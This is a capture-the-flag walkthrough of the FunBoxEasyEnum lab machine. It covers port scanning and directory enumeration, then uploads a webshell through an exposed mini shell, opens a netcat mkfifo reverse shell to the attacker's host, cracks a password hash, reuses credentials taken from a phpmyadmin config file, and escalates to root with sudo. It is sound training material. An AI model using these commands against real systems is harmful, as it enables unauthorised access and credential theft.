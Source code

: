 # FunBoxEasyEnum

## Nmap

```
sudo nmap 192.168.68.132 -p- -sS -sV

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Hitting port 80 we come to an Apache default installation page. Viewing the source of this page reveals no interesting information.

![](<../../../.gitbook/assets/image (1486).png>)

We now move onto enumerating with `dirsearch.py`. First running seclists big.txt against the target.

```
python3 dirsearch.py -u http://192.168.68.132/ -w /usr/share/seclists/Discovery/Web-Content/big.txt -r -R 2 --full-url -t 75 
```

![](<../../../.gitbook/assets/image (1487).png>)

We view robots.txt and find it contains contains:

```
Allow: Enum_this_Box
```

I ran `dirsearch.py` against this and was unable to find anything further. Viewing `/phpmyadmin` and attempting to login with default credentials shows we are unable to proceed with the default root account.

![](<../../../.gitbook/assets/image (1488).png>)

Running dirsearch.py again on the target this time using the `--suffix` parameter to append .php to all entries we find `/mini.php`.

```
python3 dirsearch.py -u http://192.168.68.132/ -w /usr/share/seclists/Discovery/Web-Content/big.txt -r -R 2 --full-url -t 75 --suffix=.php 
```

![](<../../../.gitbook/assets/image (1489).png>)

Browsing to `/mini.php` we come to Zerion Mini Shell 1.0. As per below I uploaded a webshell as webshell.php

![](<../../../.gitbook/assets/image (1490).png>)

Knowing that the above files exist in the root directory I then browsed to /webshell.php and was able to execute commands confirming we are running as www-data.

![](<../../../.gitbook/assets/image (1491).png>)

Running the command `which nc` shows we have `netcat` installed on the target machine. I set up a `netcat` listener on my target machine then run the following command on the webshell:

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.49.68 80 >/tmp/f
```

Resulting in a reverse shell.

![](<../../../.gitbook/assets/image (1492).png>)

Upgrade the shell:

```
/usr/bin/script -qc /bin/bash /dev/null
```

Checking /etc/passwd shows the user 'oracle' has a password hash in the file.

![](<../../../.gitbook/assets/image (1493) (1).png>)

I then took the hash and run it under mode 500 on `Hashcat` on my Windows host which cracked the password as: **hiphop**

![](<../../../.gitbook/assets/image (1495).png>)

I then used `su` to switch to the user 'oracle' and was successful switching.

![](<../../../.gitbook/assets/image (1496).png>)

After poking about on the oracle user for a bit I could not find anything interesting. I tried the hiphop password against other users and no luck. I decided to move back onto www-data so I can read some files in /etc/phpmyadmin.

I disconnected the shell and run the initial exploit on the web shell to get connect as www-data. Moving into `/etc/phpyadmin` and then reading read the config-db.php file we see credential information.

![](<../../../.gitbook/assets/image (1497).png>)

We find the credentials `phpmyadmin:tgbzhnujm!` I then logged in MySQL and was unable to identify interesting information in the contained databases.

From here I starting throwing the passwords at the users in the `/home/` directory until I got a match on the user 'karla'.

![](<../../../.gitbook/assets/image (1498).png>)

Knowing this worked I excited the shell and logged into `SSH` with the same information just so we have all the advantages of a `SSH` shell.

![](<../../../.gitbook/assets/image (1499).png>)

Checking `sudo -l` we see Karla can run any command as anyone. For a nice easy root shell we can run the command below:

```
sudo /bin/bash
```

![](<../../../.gitbook/assets/image (1500).png>)
